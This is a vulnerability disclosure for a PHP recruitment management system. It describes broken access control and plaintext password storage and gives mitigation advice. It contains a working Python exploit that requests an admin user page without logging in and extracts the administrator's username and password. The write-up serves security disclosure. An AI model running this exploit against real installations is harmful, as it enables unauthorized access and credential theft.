








## Introduction
This is a **PHP Project** entitled **Company's Recruitment Management System**. This project is a web-based application that is a sort of job portal website for a certain company. This system provides the company's possible employees an online platform to explore the careers/employment vacancies of the company. It has a pleasant user interface and user-friendly functionalities

**Link:** [Company's Recruitment Management System](https://www.sourcecodester.com/php/14959/companys-recruitment-management-system-php-and-sqlite-free-source-code.html)

## Vulnerability
The flaw is actually a poor authorization control, by which a **remote and unauthenticated attacker** would gain access to **private areas** of the application.

The following evidence shows how the software has an authentication form.



The following illustration shows the conditional used by the application after authentication, where the path "*index.php?page=home*" is shown.



The **remote attacker would gain access to the application's control panel without the need for credentials**, because the application first loads the website content and then performs an authentication check.



In addition, the **attacker would gain access to the entire application**, obtaining **confidential data** or altering the **information arbitrarily**. 



## Impact
The vulnerability could be exploited by unauthenticated remote attackers to:
- Gain access to the application's management panel.
- Gaining private employee data.
- Enumerating relevant corporate users in the organization.
- Making arbitrary changes to the application.
- Privilege escalation.
- Theft of administrative credentials.

## Exploitation
Although the attacker would have access to certain information, there are areas of the application that are only shown to **authenticated administrator users**, but are they really protected for the rest of the users? 
The following evidence shows that the **attacker would manage to enumerate or alter the administrator users**, this is due to a deficiency in the authorization and authentication controls.



Another of the deficiencies detected is that it seems that the **application saves the passwords flat in the database**, loading them directly in the "*password*" field of the form, logically an attacker would take advantage of this deficiency to **know the credentials of the users and administrators** of the application.




## Automating explotation
Well, the attacker would have the **deficiency of authentication and authorization by roles** in the different areas of the application, it is also noted that the **password storage in the database is not encrypted**. Therefore, the attacker could program an exploit *concatenating the detected vulnerabilities* and **obtaining the administrator's credentials** with a single request and **without authentication**.



#### Exploit:
```python
# Exploit Title: Company's Recruitment Management System 1.0 - Remote Readable Administrator Credentials (Unauthenticated)
# Date: 02/07/2022
# Exploit Author: David Utón (M3n0sD0n4ld)
# Vendor Homepage: https://www.sourcecodester.com/php/14959/companys-recruitment-management-system-php-and-sqlite-free-source-code.html
# Software Link: https://www.sourcecodester.com/sites/default/files/download/oretnom23/employment_application.zip
# Tested on: GNU/Linux Debian 10

#!/usr/bin/python3
# Author: @David_Uton (m3n0sd0n4ld)
# Github: https://m3n0sd0n4ld.github.io
# Usage: python3 CRMS-exploit.py http[s]//IP|HOST[:PORT]

import requests, re, sys

def banner():
    print("""
   _____ _____  __  __  _____       ______            _       _ _   
  / ____|  __ \|  \/  |/ ____|     |  ____|          | |     (_) |  
 | |    | |__) | \  / | (___ ______| |__  __  ___ __ | | ___  _| |_ 
 | |    |  _  /| |\/| |\___ \______|  __| \ \/ / '_ \| |/ _ \| | __|
 | |____| | \ \| |  | |____) |     | |____ >  <| |_) | | (_) | | |_ 
  \_____|_|  \_\_|  |_|_____/      |______/_/\_\ .__/|_|\___/|_|\__|
                                               | |                  
                                               |_|                  
""")

if __name__ == '__main__':
    banner()

    if len(sys.argv) == 1:
        print("[!] Error! Specify the URL")
    else:
        url = sys.argv[1]
        
        print("\n[+] Extracting user and administrator password.")

        s = requests.session()

        r = s.get("%s/manage_user.php?id=1" % url)

        username = re.findall(r'id="username" class="form-control" value="(.*?)"',r.text)
        password = re.findall(r'id="password" class="form-control" value="(.*?)"',r.text)
        
        print("\nUsername: " + str(username)[1:-1].replace("'",''))
        print("Password: " + str(password)[1:-1].replace("'",''))
```

## Mitigation
Of course, the complete review of the application, being necessary to check user authentication in all areas of the application before loading the information.

It will also be convenient to resolve or apply a correct authorization control by roles in sections and files of the application, mitigating that users with low privileges can access or perform arbitrary actions of higher roles, this could allow an escalation of privileges or the total compromise of the application.


## Links
- [Broken Authentication](https://owasp.org/www-project-top-ten/2017/A2_2017-Broken_Authentication)
- [Broken Access Control](https://owasp.org/www-project-top-ten/2017/A5_2017-Broken_Access_Control.html)